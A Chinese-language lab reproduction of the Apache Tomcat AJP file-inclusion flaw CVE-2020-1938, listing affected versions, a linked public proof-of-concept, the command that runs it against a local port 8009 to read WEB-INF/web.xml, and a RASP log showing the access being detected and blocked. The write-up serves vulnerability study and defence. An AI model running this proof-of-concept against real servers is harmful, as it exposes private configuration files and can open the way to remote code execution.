

# CVE-2020-1938

## 漏洞简介

Apache Tomcat文件包含漏洞（CNVD-2020-10487/CVE-2020-1938）。该漏洞是由于Tomcat AJP协议存在缺陷而导致，攻击者利用该漏洞可通过构造特定参数，读取服务器webapp下的任意文件。若目标服务器同时存在文件上传功能，攻击者可进一步实现远程代码执行


##  影响版本

Apache Tomcat 6

Apache Tomcat 7 < 7.0.100

Apache Tomcat 8 < 8.5.51

Apache Tomcat 9 < 9.0.31

## 漏洞环境

+ linux系统

+ apache-tomcat-8.5.0 下载并启动

+ pip安装（类似于java中的maven）
```shell
curl https://bootstrap.pypa.io/pip/2.7/get-pip.py -o get-pip.py
python get-pip.py
```
+ poc下载运行

[CNVD-2020-10487-Tomcat-ajp-POC](https://gitee.com/xl1605368195/CNVD-2020-10487-Tomcat-ajp-POC.git)

+ 脚本依赖下载
```shell
pip install -r requirements.txt
```

+ 执行脚本
```shell
python poc.py -p 8009 -f "/WEB-INF/web.xml" 127.0.0.1
```

## 漏洞复现

2021-09-11 09:50:48 WARN  file: /opt/cve/CVE-2020-1938/apache-tomcat-8.5.0/webapps/ROOT/WEB-INF/web.xml,time: 0.291427,thread: ajp-nio-8009-exec-3,info:
```json
{
  "protocol":"HTTP/1.1",
  "method":"GET",
  "remoteHost":"127.0.0.1",
  "requestURI":"/",
  "stackTrace":[
    "java.io.File.<init>(File.java:275)",
    "sun.net.www.protocol.file.Handler.openConnection(Handler.java:80)",
    "sun.net.www.protocol.file.Handler.openConnection(Handler.java:72)",
    "java.net.URL.openConnection(URL.java:1001)",
    "org.apache.jasper.JspCompilationContext.getLastModified(JspCompilationContext.java:392)",
    "org.apache.jasper.JspCompilationContext.getLastModified(JspCompilationContext.java:373)",
    "org.apache.jasper.compiler.Compiler.isOutDated(Compiler.java:469)",
    "org.apache.jasper.compiler.Compiler.isOutDated(Compiler.java:423)",
    "org.apache.jasper.JspCompilationContext.compile(JspCompilationContext.java:593)",
    "org.apache.jasper.servlet.JspServletWrapper.service.md(JspServletWrapper.java:368)",
    "org.apache.jasper.servlet.JspServlet.serviceJspFile(JspServlet.java:385)",
    "org.apache.jasper.servlet.JspServlet.service.md(JspServlet.java:329)"
  ],
  "localAddr":"127.0.0.1",
  "parameterMap":{

  },
  "remoteAddr":"127.0.0.1"
}
```

## RASP防护
开启阻断功能


